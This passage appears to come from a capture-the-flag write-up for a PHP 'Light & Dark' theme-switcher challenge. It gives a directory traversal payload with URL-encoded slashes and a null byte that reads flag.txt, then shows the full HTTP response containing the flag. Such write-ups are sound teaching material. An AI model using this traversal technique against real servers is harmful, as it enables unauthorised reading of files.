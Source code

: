 ```php

 ```


Now let's combine all and try it on the server with some random ```../ ```<br /><br />

payload: ```...%2f...%2f...%2f...%2f...%2fflag.txt%00.css ```<br /><br />

Response:

```php
HTTP/1.1 200 OK
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Content-Length: 1927
Content-Type: text/html
Date: Wed, 09 Mar 2022 16:46:19 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
X-Powered-By: PHP/4.4.0
Connection: close



<html>
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <title>L/D</title>

    <!-- Bootstrap CSS -->
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.4.1/css/bootstrap.min.css" integrity="sha384-Vkoo8x4CGsO3+Hhxv8T/Q5PaXtkKtu6ug5TOeNV6gBiFeWPGFN9MuhOf23Q9Ifjh" crossorigin="anonymous">

    <style>
        flag{l1ght_1s_f0r_n00bs_d4rk_1s_f0r_h4ck3rs}    </style>

    <!-- Bootstrap JavaScript -->
    <script src="https://code.jquery.com/jquery-3.4.1.slim.min.js" integrity="sha384-J6qa4849blE2+poT4WnyKhv5vZF5SrPo0iEjwBvKU7imGFAV0wwj1yYfoRSJoZ+n" crossorigin="anonymous"></script>
    <script src="https://cdn.jsdelivr.net/npm/popper.js@1.16.0/dist/umd/popper.min.js" integrity="sha384-Q6E9RHvbIyZFJoft+2mJbHaEWldlvI9IOYy5n3zV9zzTtmI3UksdQRVvoxMfooAo" crossorigin="anonymous"></script>
    <script src="https://stackpath.bootstrapcdn.com/bootstrap/4.4.1/js/bootstrap.min.js" integrity="sha384-wfSDF2E50Y2D1uUdj0O3uMBJnjuUD4Ih7YwaYd1iqfktj0Uod8GCExl3Og8ifwB6" crossorigin="anonymous"></script>
  </head>

  <body>
    <div class="text-center my-3">
        <h1>Selettore di tema: Light & Dark</h1>
        <p class="pt-3" style="font-size:23;">
            <i>Hai mai sognato di poter cambiare il tema con un semplice click? Finalmente puoi!</i>
        </p>
    </div>

    <div class="row mt-5 w-100">
        <div class="col-2 col-md-4"> </div>
        <div class="col text-center">
            <button class="p-2" onclick="window.location.href='index.php?tema=light.css'">Tema chiaro</button>
        </div>
```